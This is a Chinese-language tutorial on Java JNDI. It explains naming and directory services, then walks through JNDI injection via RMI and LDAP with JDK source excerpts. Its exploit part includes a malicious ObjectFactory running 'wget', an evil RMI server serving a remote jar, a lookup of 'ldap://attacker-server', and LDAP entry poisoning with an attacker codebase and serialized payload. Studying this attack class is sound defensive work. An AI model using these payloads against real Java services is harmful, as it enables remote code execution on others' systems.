

JNDI(Java Naming and Directory Interface) 是 Java 提供的 Java 命名和目录接口。通过调用 JNDI 的 API 应用程序可以定位资源和其他程序对象。JNDI 是 Java EE 的重要部分，需要注意的是它并不只是包含了 DataSource(JDBC 数据源)，JNDI 可访问的现有的目录及服务有:JDBC、LDAP、RMI、DNS、NIS、CORBA。
Naming Service 命名服务：
命名服务将名称和对象进行关联，提供通过名称找到对象的操作，例如：DNS 系统将计算机名和 IP 地址进行关联、文件系统将文件名和文件句柄进行关联等等。
Directory Service 目录服务：
目录服务是命名服务的扩展，除了提供名称和对象的关联，还允许对象具有属性。目录服务中的对象称之为目录对象。目录服务提供创建、添加、删除目录对象以及修改目录对象属性等操作。
Reference 引用：
在一些命名服务系统中，系统并不会直接将 Java 对象序列化后存储在系统中，而是持有对象的引用。这是因为通常序列化的对象占有的空间还是略大的。
所谓引用，包含了如何访问实际对象的信息，JNDI 接口中提供了类 javax.naming.Reference，用于表示引用，通过引用可以获取实际的 Java 对象。Reference 对象常用的有 3 个参数，指向的 Java 对象类名，工厂类名，工厂类的地址：
// 参数分别为类名，工厂类的类名，工厂类地址
Reference reference = new Reference("myClassName", "factoryClassName", FactoryURL);
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
ctx.bind("Foo", wrapper);Reference 还有一个成员
addrs，存储引用中的地址信息，可以指定多个，默认为空。
当然还有其它方式创建 Reference 对象，不过这种方式更利于进行漏洞的远程利用。
JNDI 目录服务
访问 JNDI 目录服务时会通过预先设置好环境变量访问对应的服务， 如果创建 JNDI 上下文 (Context) 时未指定环境变量对象，JNDI 会自动搜索系统属性 (System.getProperty())、applet 参数和应用程序资源文件 (jndi.properties)。
使用 JNDI 创建目录服务对象代码片段
// 创建环境变量对象
Properties properties = new Properties();
// 设置JNDI初始化工厂类名
properties.setProperty(Context.INITIAL_CONTEXT_FACTORY, "类名");
// 设置JNDI提供服务的URL地址
properties.setProperty(Context.PROVIDER_URL, "url");
// 创建JNDI目录服务对象
DirContext context = new InitialDirContext(properties);Context.INITIAL_CONTEXT_FACTORY(初始上下文工厂的环境属性名称) 指的是 JNDI 服务处理的具体类名称，如：DNS 服务可以使用 com.sun.jndi.dns.DnsContextFactory 类来处理，不同的服务类型会有不同等工厂类。JNDI 上下文工厂类必须实现 javax.naming.spi.InitialContextFactory 接口，通过重写 getInitialContext 方法来创建服务。该接口的内容如下：
InitialContextFactory
package javax.naming.spi;
public interface InitialContextFactory {
/**
* Creates an Initial Context for beginning name resolution.
* Special requirements of this context are supplied
* using <code>environment</code>.
*<p>
* The environment parameter is owned by the caller.
* The implementation will not modify the object or keep a reference
* to it, although it may keep a reference to a clone or copy.
*
* @param environment The possibly null environment
* specifying information to be used in the creation
* of the initial context.
* @return A non-null initial context object that implements the Context
* interface.
* @exception NamingException If cannot create an initial context.
*/
public Context getInitialContext(Hashtable<?,?> environment)
throws NamingException;
}JNDI 示例 DNS 解析
JNDI 支持访问 DNS 服务，注册环境变量时设置 JNDI 服务处理的工厂类为 com.sun.jndi.dns.DnsContextFactory 即可。
package com.sun.jndi.dns;
public class DnsContextFactory implements InitialContextFactory {
// 获取处理DNS的JNDI上下文对象
public Context getInitialContext(Hashtable<?, ?> var1) throws NamingException {
if (var1 == null) {
var1 = new Hashtable(5);
}
return urlToContext(getInitCtxUrl(var1), var1);
}
// more code ...
}进行 DNS 解析
public static void main(String[] args) {
Properties properties = new Properties();
properties.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.dns.DnsContextFactory");
properties.setProperty(Context.PROVIDER_URL, "dns://223.6.6.6/");
try {
DirContext context = new InitialDirContext(properties);
Attributes attribute = context.getAttributes("baidu.com", new String[]{"A"});
System.out.println(attribute);
} catch (Exception e) {
e.printStackTrace();
}
}输出
{a=A: 110.242.68.66, 39.156.66.10}JNDI 示例 RMI 调用
工厂类为 com.sun.jndi.rmi.registry.RegistryContextFactory
public static void main(String[] args) {
String providerURL = "rmi://" + RMI_HOST + ":" + RMI_PORT;
// 创建环境变量对象
Properties env = new Properties();
// 设置JNDI初始化工厂类名
env.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
// 设置JNDI提供服务的URL地址
env.setProperty(Context.PROVIDER_URL, providerURL);
// 通过JNDI调用远程RMI方法测试，等同于com.anbai.sec.rmi.RMIClientTest类的Demo
try {
// 创建JNDI目录服务对象
DirContext context = new InitialDirContext(env);
// 通过命名服务查找远程RMI绑定的RMITestInterface对象
RMITestInterface testInterface = (RMITestInterface) context.lookup(RMI_NAME);
// 调用远程的RMITestInterface接口的test方法
String result = testInterface.test();
System.out.println(result);
} catch (NamingException e) {
e.printStackTrace();
} catch (RemoteException e) {
e.printStackTrace();
}
}JNDI 示例 LDAP
工厂类为 com.sun.jndi.ldap.LdapCtxFactory：
public static void main(String[] args) {
try {
// 设置用户LDAP登陆用户DN
String userDN = "cn=Manager,dc=javaweb,dc=org";
// 设置登陆用户密码
String password = "123456";
// 创建环境变量对象
Properties env = new Properties();
// 设置JNDI初始化工厂类名
env.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
// 设置JNDI提供服务的URL地址
env.setProperty(Context.PROVIDER_URL, "ldap://localhost:389");
// 设置安全认证方式
env.setProperty(Context.SECURITY_AUTHENTICATION, "simple");
// 设置用户信息
env.setProperty(Context.SECURITY_PRINCIPAL, userDN);
// 设置用户密码
env.setProperty(Context.SECURITY_CREDENTIALS, password);
// 创建LDAP连接
DirContext ctx = new InitialDirContext(env);
// 使用ctx可以查询或存储数据,此处省去业务代码
ctx.close();
} catch (Exception e) {
e.printStackTrace();
}
}JNDI 示例 DataSource
JNDI 连接数据库（JDBC）比较特殊，Java 目前不提供内置的实现方法，提供数据源服务的多是 Servlet 容器，这里我们以 Tomcat 为例学习如何在应用服务中使用 JNDI 查找容器提供的数据源。
Tomcat 配置 JNDI 数据源需要手动修改 Tomcat 目录 /conf/context.xml 文件，参考：Tomcat JNDI Datasource，这里我们在 Tomcat 的 conf/context.xml 中添加如下配置：
<Resource name="jdbc/test" auth="Container" type="javax.sql.DataSource"
maxTotal="100" maxIdle="30" maxWaitMillis="10000"
username="root" password="root" driverClassName="com.mysql.jdbc.Driver"
url="jdbc:mysql://localhost:3306/mysql"/>然后我们需要下载好 Mysql 的 JDBC 驱动包 并复制到 Tomcat 的 lib 目录，配置好数据源之后我们重启 Tomcat 服务就可以使用 JNDI 的方式获取 DataSource 了。
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="javax.naming.Context" %>
<%@ page import="javax.naming.InitialContext" %>
<%@ page import="javax.sql.DataSource" %>
<%@ page import="java.sql.Connection" %>
<%@ page import="java.sql.ResultSet" %>
<%
// 初始化JNDIContext
Context context = new InitialContext();
// 搜索Tomcat注册的JNDI数据库连接池对象
DataSource dataSource = (DataSource) context.lookup("java:comp/env/jdbc/test");
// 获取数据库连接
Connection connection = dataSource.getConnection();
// 查询SQL语句并返回结果
ResultSet rs = connection.prepareStatement("select version()").executeQuery();
// 获取数据库查询结果
while (rs.next()) {
out.println(rs.getObject(1));
}
rs.close();
%>访问 tomcat-datasource-lookup.jsp 输出: 5.7.28。
需要注意的是示例
jsp代码中的Demo使用了系统的环境变量所以并不需要在创建context的时候传入环境变量对象。Tomcat 在启动的时候会设置 JNDI 变量信息，处理 JNDI 服务的类是org.apache.naming.java.javaURLContextFactory，所以在jsp中可以直接创建context。
JNDI 协议转换
如果 JNDI 在 lookup 时没有指定初始化工厂名称，会自动根据协议类型动态查找内置的工厂类然后创建处理对应的服务请求。
JNDI 默认支持自动转换的协议有：
| 协议名称 | 协议 URL | Context 工厂类 |
| DNS | dns:// | com.sun.jndi.url.dns.dnsURLContextFactory |
| RMI | rmi:// | com.sun.jndi.rmi.registry.RegistryContextFactory |
| LDAP | ldap:// | com.sun.jndi.ldap.LdapCtxFactory |
| LDAP | ldaps:// | com.sun.jndi.url.ldaps.ldapsURLContextFactory |
| IIOP | iiop:// | com.sun.jndi.url.iiop.iiopURLContext |
| IIOP | iiopname:// | com.sun.jndi.url.iiopname.iiopnameURLContextFactory |
| IIOP | corbaname:// | com.sun.jndi.url.corbaname.corbanameURLContextFactory |
RMI/LDAP 远程对象引用安全限制
在 RMI 服务中引用远程对象将受本地 Java 环境限制，即本地的 java.rmi.server.useCodebaseOnly 配置必须为 false(允许加载远程对象)，如果该属性设置为 true 则禁止引用远程对象。
除此之外在 LDAP 服务下被引用的 ObjectFactory 对象还将受到 com.sun.jndi.rmi.object.trustURLCodebase 配置限制，如果该属性为 false(不信任远程引用对象) 一样无法调用远程的引用对象。具体见下表
| Provider | Property to enable remote class loading | Security Manager enforcement |
| RMI | java.rmi.server.useCodebaseOnly = false（从 JDK 5u45, JDK 6u45,JDK 7u21,JDK 8u121 开始，默认值=true）；com.sun.jndi.rmi.object.trustURLCodebase = true （JDK 6u132, JDK 7u122, JDK 8u113 开始，默认值=false） | Always |
| LDAP | com.sun.jndi.rmi.object.trustURLCodebase = true（从 JDK 11.0.1、8u191、7u201、6u211 开始，默认值=false） | Not enforced |
| CORBA | Always |
但是在 Naming Manager 这一层，安全策略的限制很宽松，在对 JNDI 的 Reference 对象（见 JNDI-Reference）进行解析时通常没什么防护措施，导致可以远程加载类。
本地测试远程对象引用可以使用如下方式允许加载远程的引用对象：
System.setProperty("java.rmi.server.useCodebaseOnly", "false");
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");或使用 -Djava.rmi.server.useCodebaseOnly=false-Dcom.sun.jndi.rmi.object.trustURLCodebase=true 作为 JVM 启动参数。
高版本 JDK 等绕过可以借助目标本地环境的工厂类，可以参考文章 3。
JNDI 注入
JNDI 注入点位于 Context 的各个方法中：
- 由
InitialContext及其子类，如InitialDirContext和InitialLdapContext创建的Context对象会受影响。
属性覆盖
通常创建 Context 对象时会为其指定一些属性，但在某些方法中，如 lookup，可以被传递的参数修改。
例如下面的代码：
Properties properties = new Properties();
properties.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
// properties.setProperty(Context.PROVIDER_URL, "rmi://localhost:1099");
Context context = new InitialContext(properties);
// Context.INITIAL_CONTEXT_FACTORY被覆盖了
context.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");原因是 InitialContext 的 lookup 方法会调用 getURLOrDefaultInitCtx 方法，获取可用的 Context 对象，从而导致最后创建的是 ldapURLContext
protected Context getURLOrDefaultInitCtx(String name)
throws NamingException {
if (NamingManager.hasInitialContextFactoryBuilder()) {
return getDefaultInitCtx();
}
String scheme = getURLScheme(name);
if (scheme != null) {
Context ctx = NamingManager.getURLContext(scheme, myProps);
if (ctx != null) {
return ctx;
}
}
return getDefaultInitCtx();
}CommunicationException
在尝试运行上述代码时，你可能会遇到异常 javax.naming.CommunicationException，并认为 lookup 的参数并没有覆盖成功。
其实不然，这是因为单纯的指定 Context.INITIAL_CONTEXT_FACTORY，在调用 InitialContext 时他会尝试连接一个默认地址，例如对于 ldap，该地址为 localhost:389。只需指定 Context.PROVIDER_URL 属性即可发现是可以覆盖成功的。
JNDI-Reference
在 JNDI 服务中允许使用系统以外的对象，比如在某些目录服务中直接引用远程的 Java 对象，但遵循一些安全限制，如前所述『RMI/LDAP 远程对象引用安全限制 (Remote Codebases and Security Managers)』。
JNDI-RMI
下面演示使用 RMI 作为攻击向量。前面介绍了 Refernece 对象，以及它可以根据工厂类来创建对象。该工厂类是一个实现了 ObjectFactory 接口的对象。下面是一个简单的 payload，创建了一个恶意的 RMI 服务，并把恶意的 Reference 对象绑定至 Registry，
// Create JNDI Reference using remote factory class
Reference reference = new Reference("myClassName","factoryClassName",FactoryURL);
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
// Bind the object to the RMI Registry
ctx.bind("Foo", wrapper);考虑 Context.lookup 方法参数可控，传入恶意 URL，会调用到 RegistryContext.decodeObject() 方法，并调用 NamingManager.getObjectInstance() 方法实例化工厂类并调用工厂类的 getObjectInstance 方法 [1]，返回恶意对象。如下
private Object decodeObject(Remote r, Name name) throws NamingException {
try {
Object obj = (r instanceof RemoteReference)
? ((RemoteReference)r).getReference()
: (Object)r;
/*
* Classes may only be loaded from an arbitrary URL codebase when
* the system property com.sun.jndi.rmi.object.trustURLCodebase
* has been set to "true".
*/
// Use reference if possible
Reference ref = null;
if (obj instanceof Reference) {
ref = (Reference) obj;
} else if (obj instanceof Referenceable) {
ref = ((Referenceable)(obj)).getReference();
}
if (ref != null && ref.getFactoryClassLocation() != null &&
!trustURLCodebase) {
throw new ConfigurationException(
"The object factory is untrusted. Set the system property" +
" 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
}
return NamingManager.getObjectInstance(obj, name, this,
environment); // [1]
} catch (NamingException e) {
throw e;
} catch (RemoteException e) {
throw (NamingException)
wrapRemoteException(e).fillInStackTrace();
} catch (Exception e) {
NamingException ne = new NamingException();
ne.setRootCause(e);
throw ne;
}
}NamingManager.getObjectInstance 中会调用的 getObjectFactoryFromReference 方法 [2]
public static Object
getObjectInstance(Object refInfo, Name name, Context nameCtx,
Hashtable<?,?> environment)
throws Exception
{
ObjectFactory factory;
// ...
// Use reference if possible
Reference ref = null;
if (refInfo instanceof Reference) {
ref = (Reference) refInfo;
} else if (refInfo instanceof Referenceable) {
ref = ((Referenceable)(refInfo)).getReference();
}
Object answer;
if (ref != null) {
String f = ref.getFactoryClassName();
if (f != null) {
// if reference identifies a factory, use exclusively
factory = getObjectFactoryFromReference(ref, f); // [2]
if (factory != null) {
return factory.getObjectInstance(ref, name, nameCtx,
environment);而 getObjectFactoryFromReference 方法会从指定的 codebase 中实例化工厂类 [3]
static ObjectFactory getObjectFactoryFromReference(
Reference ref, String factoryName)
throws IllegalAccessException,
InstantiationException,
MalformedURLException {
Class<?> clas = null;
// Try to use current class loader
try {
clas = helper.loadClass(factoryName);
} catch (ClassNotFoundException e) {
// ignore and continue
// e.printStackTrace();
}
// All other exceptions are passed up.
// Not in class path; try to use codebase
String codebase;
if (clas == null &&
(codebase = ref.getFactoryClassLocation()) != null) {
try {
clas = helper.loadClass(factoryName, codebase); // [3]
} catch (ClassNotFoundException e) {
}
}
return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
}如果攻击者实现一个恶意的工厂类『实现 javax.naming.spi.ObjectFactory 接口』，就可以对目标发起攻击。在上述代码能够看到对 clas.newInstance(f) 的调用，所以实际利用时，恶意类没必要实现 javax.naming.spi.ObjectFactory 接口，只需将待执行的代码放在 static 代码块中即可。
ObjectFactoriesFilter
高版本 JDK 中，在 [3] 后增加了对 codebase 中获取的 ObjectFactory 进行检查 [4]
String codebase;
if (clas == null &&
(codebase = ref.getFactoryClassLocation()) != null) {
try {
clas = helper.loadClass(factoryName, codebase);
// Validate factory's class with the objects factory serial filter
if (clas == null ||
!ObjectFactoriesFilter.canInstantiateObjectsFactory(clas)) { // [4]
return null;
}
} catch (ClassNotFoundException e) {
}
}它的默认检查项并不会限制利用，但是受害者如果必须使用 codebase，可通过实现自定义 filter，并将它添加至 ObjectFactoriesFilter.GLOBAL.filters 成员中，每一个 filter 的参数是前面获取的类的 Class 对象。
恶意的 ObjectFactory 对象
Reference 所用的对象工厂必须实现 javax.naming.spi.ObjectFactory 接口并实现 getObjectInstance 方法。
public class ReferenceObjectFactory implements ObjectFactory {
/**
* @param obj 包含可在创建对象时使用的位置或引用信息的对象（可能为 null）。
* @param name 此对象相对于 ctx 的名称，如果没有指定名称，则该参数为 null。
* @param ctx 一个上下文，name 参数是相对于该上下文指定的，如果 name 相对于默认初始上下文，则该参数为 null。
* @param env 创建对象时使用的环境（可能为 null）。
* @return 对象工厂创建出的对象
* @throws Exception 对象创建异常
*/
public Object getObjectInstance(Object obj, Name name, Context ctx, Hashtable<?, ?> env) throws Exception {
// 在创建对象过程中插入恶意的攻击代码，或者直接创建一个本地命令执行的Process对象从而实现RCE
return Runtime.getRuntime().exec("wget localhost:9000");
}
}创建恶意的 RMI 服务
如果在 RMI 服务端绑定一个恶意的引用对象，RMI 客户端在获取服务端绑定的对象时发现是一个 Reference 对象后检查当前 JVM 是否允许加载远程引用对象，如果允许加载且本地不存在此对象工厂类则使用 URLClassLoader 加载远程的 jar，并加载我们构建的恶意对象工厂 (EvilObjectFactory) 类然后调用其中的 getObjectInstance 方法从而触发该方法中的恶意 RCE 代码。
public class EvilRMIServer {
public static void main(String[] args) {
try {
Registry reg = LocateRegistry.createRegistry(1099);
// 定义一个远程的jar，jar中包含一个恶意攻击的对象的工厂类
String url = "http://localhost:8081/jndi-1.0.jar";
// 目的是调用工厂类的getObjectInstance，所以第一个参数其实可以随意写
Reference reference = new Reference("com.trganda.factory.EvilObjectFactory", "com.trganda.factory.EvilObjectFactory", url);
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
reg.bind("foo", wrapper);
System.out.println("Listening...");
} catch (Exception ex) {
ex.printStackTrace();
}
}
}启动完成后会在本地监听 9000 端口测试客户端调用 RMI 方法后是否执行了 curl localhost:9000 命令。使用 nc-vv-l 9000 进行监听。
客户端代码
public static void main(String[] args) {
try {
// 测试时如果需要允许调用RMI远程引用对象加载请取消如下注释
System.setProperty("java.rmi.server.useCodebaseOnly", "false");
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
InitialContext context = new InitialContext();
// 获取RMI绑定的恶意ReferenceWrapper对象
Object obj = context.lookup(RMI_NAME);
System.out.println(obj);
} catch (NamingException e) {
e.printStackTrace();
}
}运行后得到如下回显
GET / HTTP/1.1
Host: localhost:9000
User-Agent: Wget/1.21.3
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive整个攻击过程总结如下：
lookup方法参数可控，攻击者提供恶意的 URL 路径。- 受害者连接至攻击者控制的 RMI Registry 获取 JNDI Reference。
- 受害者对
Reference进行解码，获取工厂类信息。 - 从 Reference 中指定的目标地址获取工厂类。
- 实例化工厂类。
- 执行 pyaload。

除了 InitialContext.lookup 方法外，其它会间接调用 lookup 的方法都是可被攻击的目标。如 InitialContext.rename() 和 InitialContext.lookupLink()
RMI-Codebase
另一种利用方式是使用 RMI 的 codebase 进行远程加载，不过利用条件苛刻。有以下条件限制
- RMI 客户端需要设置一个 Security Manager，并且允许访问远程的
codebase。 java.rmi.server.useCodebaseOnly=false
通过反序列化漏洞利用 JNDI
相关入口见 JNDI 注入 章节。
JNDI-CORBA
JNDI-LDAP
JNDI 也支持 LDAP 服务，它和 RMI 不同的地方是它是一个目录服务，可以通过（目录）的属性来存储对象的信息。而在 LDAP 服务中，有两种方式存储 Java 对象，
- 序列化方式
- JNDI Reference 方式
可以通过 DirContext.lookup() 和 LDAP Entry 投毒的方式进行利用，前者的攻击方式和 JNDI-RMI 的原理是类似的，攻击者构造一个恶意 LDAP 服务；后者则可以对目标自身使用的 LDAP 服务进行投毒，并等待受害者获取该 Entry。
相关的危险方法有，InitialDirContext.lookup()，Spring 中的 LdapTemplate.lookup() 和 LdapTemplate.lookupContext()。
JNDI Entry 投毒
InitialContext.lookup在企业应用中的使用是比较少的，更多操作是在 LDAP 的Attribute上，而不是直接操作对象。
例如，目标服务可能不会使用 lookup 从 ldap 服务上查找获取对象，而更多的是使用 search 方法获取 ldap entry 的 attribute，如用户名，密码和邮箱等。这种情况下没有 Java 对象的反序列化，但是 search 方法中有一个特别的标志，returnObjFlag。
如果在使用 search 方法时带有 returnObjFlag=true 标志，在返回的 SearchResult 中会绑定对应的 Java 对象，这意味着如果攻击者能够控制 ldap 的响应内容就可以在目标上执行恶意代码。
相关代码位于 LdapSearchEnumeration#createItem，如果没有设置 returnObjFlag 标志则尝试返回一个 DirContext 实例
protected SearchResult createItem(String var1, final Attributes var2, Vector<Control> var3) throws NamingException {
Object var4 = null;
boolean var7 = true;
// ...
this.homeCtx.setParents(var2, var9);
// returnObjFlag 为 true
if (this.searchArgs.cons.getReturningObjFlag()) {
if (var2.get(Obj.JAVA_ATTRIBUTES[2]) != null) {
try {
var4 = AccessController.doPrivileged(new PrivilegedExceptionAction<Object>() {
public Object run() throws NamingException {
// 远程加载对象并进行反序列化
return Obj.decodeObject(var2); // [4]
}
}, this.acc);
} catch (PrivilegedActionException var15) {
throw (NamingException)var15.getException();
}
}其中调用 Obj#decodeObject 从 attribute 中获取对象 [4]
static Object decodeObject(Attributes var0) throws NamingException {
String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));
try {
Attribute var1;
if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
ClassLoader var3 = helper.getURLClassLoader(var2);
return deserializeObject((byte[])((byte[])var1.get()), var3);
} else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
} else {
var1 = var0.get(JAVA_ATTRIBUTES[0]);
return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
}
} catch (IOException var5) {
NamingException var4 = new NamingException();
var4.setRootCause(var5);
throw var4;
}
}Java 对象在 LDAP 服务中的存储形式
参考 RFC 2713：
- Serialized Objects：Java 对象序列化数据，具有如下属性
objectClass：固定值，javaSerializedObjectjavaClassName: 序列化对象的类名javaClassNames：有关javaClassName所指对象的其它类信息，可以和 javaClassName 相同，也可以指名它实现的接口或父类，祖先类等。javaCodebase：CodebasejavaSerializedData：序列化数据，如果不为空且反序列化成功就不使用 Codebase 进行远程加载
- JNDI References：具有如下属性，用于构建
javax.naming.Reference对象objectClass：固定值，javaNamingReferencejavaClassName：被引用对象的类名javaClassNames：有关javaClassName所指对象的其它类信息，可以和 javaClassName 相同，也可以指名它实现的接口或父类，祖先类等。javaCodebase：CodebasejavaReferenceAddress：描述 Reference 对象的属性，可以指定多个，类型为字符串数组javaFactory：可选，工厂类名『用于创建javaClassName所指对象』
- Marshalled Objects：与 Serialized Objects 类似，但不会记录
codebaseobjectClass：固定值，javaMarshalledObjectjavaClassName：序列化对象的类名- javaClassNames：有关
javaClassName所指对象的其它类信息，可以和 javaClassName 相同，也可以指名它实现的接口或父类，祖先类等。 - javaSerializedData: 序列化数据，如果不为空且反序列化成功就不使用 Codebase 进行远程加载
- Remote Location (deprecated)：用来存储 RMI Remote 对象，现在可通过 JNDI References 或 Marshalled Objects 替代
- javaRemoteLocation：远程对象的 URL，可使用 rmi
ldap、ldaps、dns、iiop、iiopname、cobarname等协议。 - javaClassName：远程对象的类名
- javaRemoteLocation：远程对象的 URL，可使用 rmi
上面的 4 种存储形式也意味着有多种利用方式。
反序列化
Serialized Objects 和 Marshalled Objects 形式的 LDAP Entry。序列化数据存储在 javaSerializedData 中，反序列化过程发生在 com.sun.jndi.ldap.Obj.decodeObject(Attributes attrs) 方法中，
受
com.sun.jndi.ldap.object.trustSerialData属性影响，默认为true。
static Object decodeObject(Attributes attrs)
throws NamingException {
Attribute attr;
// Get codebase, which is used in all 3 cases.
String[] codebases = getCodebases(attrs.get(JAVA_ATTRIBUTES[CODEBASE]));
try {
if ((attr = attrs.get(JAVA_ATTRIBUTES[SERIALIZED_DATA])) != null) {
// com.sun.jndi.ldap.object.trustSerialData 属性是否 true
if (!VersionHelper12.isSerialDataAllowed()) {
throw new NamingException("Object deserialization is not allowed");
}
ClassLoader cl = helper.getURLClassLoader(codebases);
// 触发反序列化
return deserializeObject((byte[])attr.get(), cl);
// more code...
}那么借助 javaSerializedData 属性可以直接利用反序列化漏洞。
而 javaCodebase 属性则可用于控制 codebase。但就像前面说的，这种方式容易受到 JVM 和安全策略的限制。这种情况下，可以考虑利用目标 classpath 中已有的类进行攻击。
那么可以构造的一个恶意的 Entry 放入 LDAP 服务器中，如下：
System.out.println("Poisoning LDAP user");
// 使用 https://docs.oracle.com/javase/jndi/tutorial/config/LDAP/java.schema 文件配置 ldap 服务器时，无法设置 javaCodebase 属性
BasicAttribute mod1 = new
BasicAttribute("javaCodebase",attackerURL));
BasicAttribute mod2 = new
BasicAttribute("javaClassName","DeserPayload"));
BasicAttribute mod3 = new BasicAttribute("javaSerializedData",
serializedBytes));
ModificationItem[] mods = new ModificationItem[3];
mods[0] = new ModificationItem(DirContext.ADD_ATTRIBUTE, mod1);
mods[1] = new ModificationItem(DirContext.ADD_ATTRIBUTE, mod2);
mods[2] = new ModificationItem(DirContext.ADD_ATTRIBUTE, mod3);
ctx.modifyAttributes("uid=target,ou=People,dc=example,dc=com", mods);利用 References
回到更易利用的 JNDI Reference，利用方式和之前类似，就像前面说的，它相对来讲使用更广泛，而且限制条件少。 Naming Manager 会检查 javaFactory 和 javaCodebase 属性，并从指定地址获取类后进行实例化。 相关代码也在 com.sun.jndi.ldap.Obj.decodeObject(Attributes attrs) 中
static Object decodeObject(Attributes attrs)
throws NamingException {
Attribute attr;
// Get codebase, which is used in all 3 cases.
String[] codebases = getCodebases(attrs.get(JAVA_ATTRIBUTES[CODEBASE]));
try {
// more code...
attr = attrs.get(JAVA_ATTRIBUTES[OBJECT_CLASS]);
if (attr != null &&
(attr.contains(JAVA_OBJECT_CLASSES[REF_OBJECT]) ||
attr.contains(JAVA_OBJECT_CLASSES_LOWER[REF_OBJECT]))) {
// 获取 Reference
return decodeReference(attrs, codebases);
}
// more code...
}并在 decodeReference(Attributes attrs, String[] codebases) 方法中创建并返回 Reference 对象
private static Reference decodeReference(Attributes attrs,
String[] codebases) throws NamingException, IOException {
Attribute attr;
String className;
String factory = null;
if ((attr = attrs.get(JAVA_ATTRIBUTES[CLASSNAME])) != null) {
className = (String)attr.get();
} else {
throw new InvalidAttributesException(JAVA_ATTRIBUTES[CLASSNAME] +
" attribute is required");
}
if ((attr = attrs.get(JAVA_ATTRIBUTES[FACTORY])) != null) {
factory = (String)attr.get();
}
Reference ref = new Reference(className, factory,
(codebases != null? codebases[0] : null));
// more code...
}获取 Reference 对象后，返回 com.sun.jndi.ldap.LdapCtx#c_lookup 并最终在方法 DirectoryManager#getObjectInstance 中根据 Reference 获取指定的工厂类
LDAP被方法与RMI不同，但逻辑相差不多。
public static Object
getObjectInstance(Object refInfo, Name name, Context nameCtx,
Hashtable<?,?> environment, Attributes attrs)
throws Exception {
if (ref != null) {
String f = ref.getFactoryClassName();
if (f != null) {
// if reference identifies a factory, use exclusively
factory = getObjectFactoryFromReference(ref, f);
if (factory instanceof DirObjectFactory) {
return ((DirObjectFactory)factory).getObjectInstance(
ref, name, nameCtx, environment, attrs);
} else if (factory != null) {
// 调用 getObjectInstance 方法
return factory.getObjectInstance(ref, name, nameCtx,
environment);
}
// No factory found, so return original refInfo.
// Will reach this point if factory class is not in
// class path and reference does not contain a URL for it
return refInfo;
} else {
// if reference has no factory, check for addresses
// containing URLs
// ignore name & attrs params; not used in URL factory
answer = processURLAddrs(ref, name, nameCtx, environment);
if (answer != null) {
return answer;
}
}
}javaReferenceAddress
同时需要注意一点，如果 javaReferenceAddress 属性存在，它也会被反序列化 _。
